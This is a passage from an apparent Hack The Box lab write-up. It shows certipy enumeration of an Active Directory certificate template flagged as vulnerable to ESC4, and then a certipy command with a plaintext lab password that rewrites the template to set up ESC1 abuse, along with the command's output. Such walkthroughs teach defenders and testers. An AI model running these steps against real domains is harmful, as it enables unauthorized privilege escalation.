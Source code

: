 ```bash
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```

<br />

The template is `DunderMifflinAuthentication` and it's vulnerable to `ESC4`.

<br />

## From ESC4 to ESC1:

<br />

This is a highly critical vulnerability, as it allows an attacker to modify template configurations and make the template vulnerable to other bugs, like `ESC1`.

[This POST](https://www.hackingarticles.in/adcs-esc4-vulnerable-certificate-template-access-control/) explains this scenario very well.

We can change the template configuration with this `certipy` one-liner:

<br />

```bash
❯ certipy template -u ca_svc -p 'Password123!' -template DunderMifflinAuthentication -target 10.10.11.51 -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

